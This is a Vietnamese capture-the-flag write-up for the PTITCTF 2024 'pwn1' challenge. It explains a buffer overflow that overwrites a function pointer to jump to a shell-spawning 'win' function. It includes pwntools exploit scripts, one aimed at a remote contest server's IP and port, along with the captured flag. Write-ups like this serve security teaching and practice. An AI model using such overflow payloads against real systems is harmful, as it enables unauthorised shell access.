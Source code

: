 # pwn1
## Kịch bản
- Ta phải ghi đè lên biến `a` để control hàm `ptr_func`
![alt text](https://github.com/nhh9905/CTF/blob/main/PTITCTF%202024/V%C3%B2ng%20lo%E1%BA%A1i/Pwnable/image-1.png)
- Chúng ta thấy có hàm `win`, hàm này thực hiện chức năng lấy shell của server để thực hiện chương trình
![alt text](https://github.com/nhh9905/CTF/blob/main/PTITCTF%202024/V%C3%B2ng%20lo%E1%BA%A1i/Pwnable/image-2.png)

-> Ghi đè lên biến `a` để control hàm `ptr_func`, sau đó ghi đè lên địa chỉ hàm `hello` để trỏ về hàm `win`
## Solution
- Check bảo mật của file, ta thấy có dòng `No PIE` tức là địa chỉ giữ nguyên không bị thay đổi -> Có thể tính toán offset 1 cách dễ dàng
![alt text](https://github.com/nhh9905/CTF/blob/main/PTITCTF%202024/V%C3%B2ng%20lo%E1%BA%A1i/Pwnable/image-3.png)
- Ghi đè biến `buffer` lên biến `a`

![alt text](https://github.com/nhh9905/CTF/blob/main/PTITCTF%202024/V%C3%B2ng%20lo%E1%BA%A1i/Pwnable/image-4.png)
![alt text](https://github.com/nhh9905/CTF/blob/main/PTITCTF%202024/V%C3%B2ng%20lo%E1%BA%A1i/Pwnable/image-5.png)

`0x004040F0 - 0x00404060 = 0x90`
-> Ghi đè `144 - 8 (0xDEADBEEF) = 136` bytes + 8 bytes của `0xDEADBEEF`
- Thay thế địa chỉ hàm `ptr_func` để trỏ đến địa chỉ hàm `win`
- Lấy địa chỉ hàm `win` để lấy shell của chương trình
![alt text](https://github.com/nhh9905/CTF/blob/main/PTITCTF%202024/V%C3%B2ng%20lo%E1%BA%A1i/Pwnable/image-6.png)
- Viết code lấy shell chương trình
```Python
from pwn import *

p = process("./pwn1")

#Ghi đè
payload = b"a"*136
payload += p64(0xDEADBEEF)
win = 0x000000000040130c #dia chi ham win
payload += p64(win)

p.sendlineafter(b"Enter your name:", payload)
p.interactive()
```
- Lúc này chúng ta đã lấy được shell của chương trình, tức là đã ghi đè thành công và control được địa chỉ của hàm `ptr_func`
![alt text](https://github.com/nhh9905/CTF/blob/main/PTITCTF%202024/V%C3%B2ng%20lo%E1%BA%A1i/Pwnable/image-7.png)
- Tiến hành remote lên server
```Python
from pwn import *

#p = process("./pwn1")
p = remote("14.225.255.41", 13331)

payload = b"a"*136
payload += p64(0xDEADBEEF) #chuyen chuoi hex sang 8 bytes

win = 0x000000000040130c
payload += p64(win)

p.sendlineafter(b"Enter your name: ", payload)
p.interactive()
```
## Flag
```PTITCTF{fl0w_fl0w_0v3rfl0w_g3t_w1n}```
## Kết luận
- Đây là dạng bài `ret2win` khá phổ biến trong mảng `pwnable`